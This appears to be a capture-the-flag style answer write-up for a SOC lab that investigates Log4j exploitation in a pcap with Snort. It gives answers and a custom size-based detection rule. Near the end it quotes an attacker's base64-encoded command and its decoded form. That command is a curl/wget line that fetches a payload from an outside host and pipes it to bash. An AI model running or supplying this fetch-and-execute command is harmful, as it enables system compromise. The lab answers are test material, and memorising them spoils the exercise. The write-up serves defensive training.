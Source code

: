 #cybersecurity #soc #network 

**Navigate to the task folder.**  
**Use the given pcap file.**
**Use the given rule file (local.rules) to investigate the log4j exploitation.**
**What is the number of detected packets?**
26

**Investigate the log/alarm files.**  
**How many rules were triggered?.**
4

**What are the first six digits of the triggered rule sids?**
210037

**Clear the previous log and alarm files.**  
**Use local-1.rules empty file to write a new rule to detect packet payloads between 770 and 855 bytes.**
**What is the number of detected packets?**
`alert tcp any any <> any any (msg: "SEQ TEST"; dsize:769<>856; sid: 100001; rev:1;)`
41

**What is the name of the used encoding algorithm?**
base 64


**Decode the encoded command.**
**What is the attacker's command?**
echo "KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=}" | base64 -d

curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80



`